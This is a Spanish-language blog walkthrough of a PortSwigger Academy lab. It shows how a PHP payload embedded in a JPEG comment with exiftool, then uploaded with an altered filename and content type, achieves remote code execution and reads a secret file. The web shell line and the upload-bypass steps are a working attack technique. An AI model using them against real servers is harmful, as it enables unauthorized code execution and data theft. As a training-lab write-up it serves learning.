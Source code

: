 +++
author = "Alux"
title = "Portswigger Academy Learning Path: File Upload Lab 7"
date = "2022-01-11"
description = "Lab: Remote code execution via polyglot web shell upload"
tags = [
    "file upload",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Remote code execution via polyglot web shell upload

En este <cite>laboratorio[^1]</cite>la finalidad es subir una shell al servidor para luego poder extraer o recuperar informacion de este. En este caso tenemos que leer el archivo `/home/carlos/secret`

## Reconocimiento

Cuando ingresamos con la cuenta de `wiener:peter` tenemos una opcion para subir archivos, en este caso el avatar del usuario, pero al intentar subir una imagen no nos da una opcion para poder elegir imagen u otro.

![Sistema permite la subida de archivos](upload.png)

Todo bien pero el sistema parece que no ejecuta el codigo php desde la carpeta, haciendo que cualquier archivo php solo podamos ver el contenido del `php` como si fuera texto plano.

## Explotacion

Creamos el archivo php con el siguiente codigo

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ahora enviamos el archivo, y vemos la respuesta que nos da diciendo que no se permite subir archivos de tipo `php` solamente `jpg y png`  aun cuando le agregamos las cabeceras para que sea un archivo de tipo jpg o png

- https://en.wikipedia.org/wiki/List_of_file_signatures

![Subida de archivo php al servidor](request.png)

Despues de intentar tanto encontre algo de exiftool y agregar un comentario en el blog de hacktricks, asi que me decidi a agregar un comentario a una imagen jpg cualquiera.

- https://book.hacktricks.xyz/pentesting-web/file-upload

```bash
alux@rootsystems:~/portswigger$ exiftool -Comment="<?php echo file_get_contents('/home/carlos/secret'); ?>" imagen.jpg
    1 image files updated
alux@rootsystems:~/portswigger$ exiftool imagen.jpg
ExifTool Version Number         : 12.30
File Name                       : imagen.jpg
Directory                       : .
File Size                       : 73 KiB
File Modification Date/Time     : 2022:01:11 20:55:52-06:00
File Access Date/Time           : 2022:01:11 20:55:52-06:00
File Inode Change Date/Time     : 2022:01:11 20:55:52-06:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Comment                         : <?php echo file_get_contents('/home/carlos/secret'); ?>
Image Width                     : 1080
Image Height                    : 1350
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1080x1350
Megapixels                      : 1.5
```
Ahora que tenemos nuestra imagen jpg con un comentario, procedemos a subirlo, pero esta vez interceptando y no modificando nada, mas que el `filename` y `Content-type` para que se suban como archivos php y que el servidor no lo tome como imagen aunque si valide su cabecera y sea realmente una imagen pero al ingresar al servidor todo su texto legible se tomara como php.

![Subida de archivo al servidor como imagen pero en formato php](request1.png)

Ahora que hemos subido la imagen podemos ver la key y podemos notar entre todos los caracteres no legibles nuestra key, ya que todo lo esta interpretando como un php incluso los caracteres que no conoce.

> El valor de la key empieza despues del 9 si vemos la peticion anterior notaremos como esta el valor 9 entre el contenido de la imagen antes del comentario

![Lectura de archivo secret de carlos](key.png)

Y con esto resolvimos el lab, pudiendo subir un archivo php que ejecuta acciones o comandos en el servidor.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)